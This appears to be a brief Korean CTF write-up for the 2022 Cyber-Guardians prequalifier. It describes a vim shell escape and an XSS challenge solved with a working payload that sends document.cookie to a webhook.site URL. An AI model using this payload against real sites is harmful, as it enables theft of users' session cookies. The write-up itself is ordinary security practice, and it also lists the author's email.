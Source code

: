 # 2022 Cyber-Guardians CTF Prequal

## Dreamhack info
Nickname: suk-6
email: wsuk.nam@gmail.com

## Solve list
A - Sanity Check!

I - xss-1.0

J - xss-1.3

### Sanity Check!
Netcat으로 원격 서버에 접속하였더니 vim 편집창이 나온다.

vim 편집기에서 !를 붙이고 Shell 명령어를 작성하면 실행되는 기능을 활용하여 루트 디렉토리의 파일을 조회하고 head 명령어로 flag 파일을 불러왔다.

### xss-1.0
로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

`location.href`를 이용하여 webhook.site로 리다이렉트 시켰다.

이 때 `document.cookie`를 이용하여 브라우저의 쿠키를 URI에 담아서 보냈다.
```<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>```

### xss-1.3
xss-1.0과 같이 로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

다만, `'`, `"`, `=`를 필터링하고 있다.